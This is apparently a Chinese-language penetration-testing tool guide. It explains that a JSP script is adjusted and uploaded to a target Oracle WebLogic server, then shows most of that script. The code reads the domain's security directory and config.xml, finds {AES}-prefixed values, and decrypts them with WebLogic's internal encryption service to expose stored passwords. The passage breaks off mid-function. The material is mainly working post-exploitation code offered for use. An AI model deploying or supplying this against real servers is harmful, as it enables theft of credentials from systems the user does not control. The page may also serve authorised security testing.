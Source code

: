 推荐指数：★★★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools6-get_wls_pwd1`

---

在使用前需要改一下PREFIX，还需要指定Secruity_path和Config_path路径。然后上传到目标服务器上，访问即可。

![image](images/image(14).png)

代码如下：

```
<%@ page contentType="text/html; charset=GBK" %>
<%@ page import="java.io.*"%>
<%@ page import="java.util.*"%>
<%@ page import="javax.xml.parsers.*"%>
<%@ page import="org.w3c.dom.*"%>
<%@ page import="javax.xml.xpath.*"%>
<%@ page import="weblogic.security.internal.*"%>
<%@ page import="weblogic.security.internal.encryption.*"%>

<%!
private static final String PREFIX = "{AES}";
private static final String XPATH_EXPRESSION = "//node()[starts-with(text(), '"
			+ PREFIX + "')] | //@*[starts-with(., '" + PREFIX + "')]";
private static ClearOrEncryptedService ces;
private static final String Secruity_path = "/root/Oracle/Middleware/user_projects/domains/base_domain/security";
private static final String Config_path = "/root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml";


private static String processXml(File file)  {
		String result = "";
		try{
			Document doc = DocumentBuilderFactory.newInstance()
					.newDocumentBuilder().parse(file);
			XPathExpression expr = XPathFactory.newInstance().newXPath()
					.compile(XPATH_EXPRESSION);
			NodeList nodes = (NodeList) expr.evaluate(doc, XPathConstants.NODESET);
			for (int i = 0; i < nodes.getLength(); i++) {
				Node node = nodes.item(i);
				result = print(node.getNodeName(), node.getTextContent());
			}
		}catch (Exception e) {
				result = "<font color=\"red\">出错了。。</font>";
			
		}
		return result;
 
	}
private static String processProperties(File file) 
{
		String result = "";
		try{
			Properties properties = new Properties();
			properties.load(new FileInputStream(file));
			for (Map.Entry p : properties.entrySet()) {
				if (p.getValue().toString().startsWith(PREFIX)) {
					result = print(p.getKey(), p.getValue());
				}
			}
		
		}catch (Exception e) {
				result = "<font color=\"red\">出错了。。</font>";
```